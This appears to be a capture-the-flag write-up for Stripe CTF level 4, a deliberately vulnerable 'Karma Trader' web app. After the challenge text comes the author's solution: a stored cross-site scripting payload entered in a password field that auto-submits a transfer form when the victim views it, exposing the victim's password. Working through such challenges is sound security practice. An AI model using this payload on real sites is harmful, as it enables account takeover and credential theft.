 The Karma Trader is the world's best way to reward people for good deeds: https://level04-2.stripe-ctf.com/user-edkddleevi. You can sign up for an account, and start transferring karma to people who you think are doing good in the world. In order to ensure you're transferring karma only to good people, transferring karma to a user will also reveal your password to him or her.

The very active user karma_fountain has infinite karma, making it a ripe account to obtain (no one will notice a few extra karma trades here and there). The password for karma_fountain's account will give you access to Level 5.

You can obtain the full, runnable source for the Karma Trader from git clone https://level04-2.stripe-ctf.com/user-edkddleevi/level04-code. We've included the most important files below. 

My solution:

<script>document.getElementsByName("to").item(0).value="me"; document.getElementsByName("amount").item(0).value="10"; document.getElementsByName("amount").item(0).parentNode.parentNode.submit(); alert("itworked"); </script> in the password field of second account, and transfer to karma_fountain; karma_fountain logs in and javascript gets executed via password field: karma transferred from karma_fountain to me; I log in as me and see karma_fountains password
